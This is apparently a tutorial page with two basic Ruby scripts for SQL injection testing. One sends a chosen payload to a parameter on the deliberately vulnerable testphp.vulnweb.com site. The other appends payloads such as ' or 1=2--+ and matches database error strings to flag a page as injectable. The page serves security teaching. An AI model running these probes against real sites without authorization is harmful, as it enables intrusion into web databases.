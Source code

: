# SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test it.

```ruby
#!/usr/bin/evn ruby
#
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
puts "[+] Status code: "+ response.code + "\n\n"
puts response.body.gsub('|\n', '').gsub(/<.*?>/, '')

puts ""
```



Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
#
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      '\'',
      '"',
      '\' or 1=2--+'
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occured = vulnerable
puts "[+] The #{uri.to_s} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try this url (http://testasp.vulnweb.com/showforum.asp?id=0)

